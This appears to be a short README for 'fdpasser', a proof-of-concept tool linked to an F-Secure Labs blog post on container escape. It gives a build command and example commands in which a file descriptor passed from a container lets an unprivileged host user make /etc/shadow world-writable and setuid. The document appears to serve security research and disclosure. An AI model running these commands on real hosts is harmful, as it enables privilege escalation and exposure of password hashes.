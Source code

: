 # What is this?
Read the F-Secure Blog: https://labs.f-secure.com/blog/helping-root-out-of-the-container/
# Build
```
make
```

# Example
```
In container, as root: ./fdpasser recv /moo /etc/shadow
Outside container, as UID 1000: ./fdpasser send /proc/$(pgrep -f "sleep 1337")/root/moo
Outside container: ls -la /etc/shadow
Output: -rwsrwsrwx 1 root shadow 1209 Oct 10  2019 /etc/shadow
```
